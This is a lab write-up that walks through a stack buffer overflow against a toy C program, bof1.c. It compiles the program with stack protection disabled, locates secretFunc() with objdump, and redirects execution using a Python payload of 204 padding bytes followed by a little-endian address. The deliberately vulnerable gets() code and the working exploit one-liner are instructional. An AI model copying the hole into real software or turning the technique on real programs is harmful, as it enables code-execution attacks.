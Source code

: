 # Buffer Overflow Attack on `bof1.c`

```c++
#include <stdio.h>
#include <unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln()
{
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char *argv[])
{
    if (argv[1] == 0)
    {
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```

The target is to call the function `secretFunc()` by providing a large amount of input that overflow the size of the array `char array[200]`.

## Compile the source code

We compile the source code with `-fno-stack-protector` to disable the stack protector.

    gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2

![gcc -g bof1.c -o bof1.o](./img/bof1/gcc.png)

A new file `bof1.o` is created.

Here we get a warning:

```shell
bof1.c: In function 'vuln':
bof1.c:11:5: warning: implicit declaration of function 'gets' [-Wimplicit-function-declaration]
     gets(array);
     ^
/tmp/ccH5mRoJ.o: In function `vuln':
/home/seed/seclabs/review2/bof1.c:11: warning: the `gets' function is dangerous and should not be used.
```

This is because the source code used `gets()` which is a vulnerable function. It it doesn’t limit the amount of data it reads, making it susceptible to buffer overflows.

`gets()` has been removed from modern versions of the C standard because it can lead to arbitrary code execution via buffer overflow.

## Finding the address of the `secretFunc()`

In order to call the function `secretFunc()`, we need to know its address. We can obtain this address using `objdump`.

```bash
objdump -d bof1.o | grep secretFunc
```

![objdump -d bof1.o | grep secretFunc](./img/bof1/objdump.png)

The address of the function is `0x0804846b`. When writing this address to the stack, we need to represent it in **Little Endian** format, meaning it is reversed in memory (`6b 84 04 08`)

## Attack

We will overflow the stack frame of the `vuln()` function, specifically the local `array` variable. The goal is to overwrite the saved return address (`eip`) on the stack, causing it to jump to `secretFunc()`.

### Stack frame of `vuln()`:

![vuln()](./img/bof1/stackframe.png)

We need to input a large amount of charactors so that it exceed the 200 bytes char array plus 4 bytes of `ebp`, and overwrite the value of `eip` so that it will call the function `secretFunc()` instead of returning to `main()`.

Remember, the address of `secretFunc()` is `0x0804846b`, and we need to write it in reverse.

The input should be 200 bytes to fill the memory spared for the `array` local variable, and 4 bytes to fill the memory of `ebp`, then we will insert the address of `secretFunc()` into `eip`.

Since the input is so long, I will use Python to do it for me

```bash
echo $(python -c "print('a' * 200 + 'b' * 4 + '\x6b\x84\x04\x08')")
```

### Explain:

-   `'a' * 200`: 200 characters for the `array`.
-   `'b' * 4`: 4 characters for the `ebp`.
-   `'\x6b\x84\x04\x08'`: address of `secretFunc()` written in **Little Endian** format.

To inject the output of the `echo` into the input of the program, we will add `| ./bof1.o 1` after the `echo`:

```bash
echo $(python -c "print('a' * 200 + 'b' * 4 + '\x6b\x84\x04\x08')") | ./bof1.o 1
```

### Result:

![result](./img/bof1/result.png)

We got the message `Congratulation!`, which means we have successfully redirect execution to `secretFunc()`!
